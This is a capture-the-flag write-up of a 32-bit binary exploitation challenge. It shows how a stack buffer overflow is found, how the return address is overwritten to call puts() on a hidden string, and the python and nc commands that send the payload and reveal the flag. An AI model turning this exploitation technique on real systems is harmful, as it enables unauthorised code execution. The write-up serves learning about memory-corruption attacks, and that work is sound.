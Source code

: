 # Pennsylvania - IRS - Exploit - 100
## Problem Description
> Good day fellow Americans. In the interest of making filing your tax returns as easy and painless as possible, we've created this nifty lil' program to better serve you! Simply enter your name and file away! And don't you worry, everyone's file is password protected ;)
> 
> nc irs.pwn.republican 4127

We are provided a stripped ELF 32-bit LSB executable, Intel 80386. 


```
$ checksec ./irs
[!] Couldn't find relocations against PLT to get symbols
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE

```

Running strings on the file reveals the string "not_the_flag". This is the password for viewing Donald Trump’s tax returns on the given binary. So the goal is to force the program to output this string somehow. Stepping through the output in gdb reveals that this string is located at 0x804c03a.

## Finding an Exploit
I tested for easy buffer overflows or string format vulns before even taking a look at the assembly.


There is indeed a buffer overflow in the edit function, when it asks for y/n confirmation.

```
y/n
AAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD
Your changes have been recorded!


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```
So the instruction pointer gets overridden after 25 characters. We have control of esp contents, ebp, and eip

Taking a look at the functions, we have

- View tax return: 0x804892C
 -   0x804893a : Call 0x80484f8 ( puts )
 -   0x804895c: Call printf
 -   0x8048981 : printf
 -   0x80489a6 : printf
 -   0x80489cb : printf
 -   0x80489db : puts


```
$ python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x804892C))" | ./irs
...
--------------------------------------------------------------------------------
Segmentation fault (core dumped)
```




Great! We can redirect the program flow to the view taxes function. It begins printing the first line with all the dashes. It then crashes early since the parameters are incorrect.


Although, using this entire function isn't even necessary. Since we know the memory address of the flag, we can just call puts() on its location and pass the memory address as the parameter.


- call puts: 0x804893a
- puts: 0x80484f8
- flag: 0x0804c03a


So if we can set the top of esp to 0x0804c03a and then jump to 0x804893a, we will get the flag. Of course, the flag location may change, but we’ll get to that later.



```
(gdb) r
…
^C
(gdb) i r
…
esp            0xffffcd78    0xffffcd78
...
(gdb) set *0xffffcd78=0x804c03a
(gdb) jump *0x804893a
Continuing at 0x804893a.
not_the_flag


Program received signal SIGSEGV, Segmentation fault.
0x08048951 in ?? ()
```



So it works in theory; now to try it using the buffer overflow
```
(gdb) !python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x80489db) + struct.pack('i', 0x804c03a))" > attack
(gdb) r < attack
…
Deductible: 1
y/n
Your changes have been recorded!
not_the_flag


Program received signal SIGSEGV, Segmentation fault.
0x080489e4 in ?? ()
```




## Determining the Offset

It works in gdb! However, something seems to be offset when running it on the binary without gdb, as it fails to print this string. The not_the_flag variable must have been loaded into a different location. But it is still calling the puts function successfully.
We can try using the address of what we found when running strings on the binary instead.
Looking back at the binary, the variable is located at 0xac2
```
$ xxd irs | grep not
00000ac0: c700 6e6f 745f c740 0474 6865 5fc7 4008  ..not_.@.the_.@.
```
The .text base address for x86 systems is 0x8048000, so this variable’s location when loaded into the program should be 0x8048000 + 0xac2 = 0x8048ac2

```
python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x80489db) + struct.pack('i', 0x8048ac2))" | nc irs.pwn.republican 4127
...
y/n
Your changes have been recorded!
flag�@{c4n�_1_g�@
                  3t_a�@_r3f�@und}�
```

flag{c4n_1_g3t_a_r3fund}
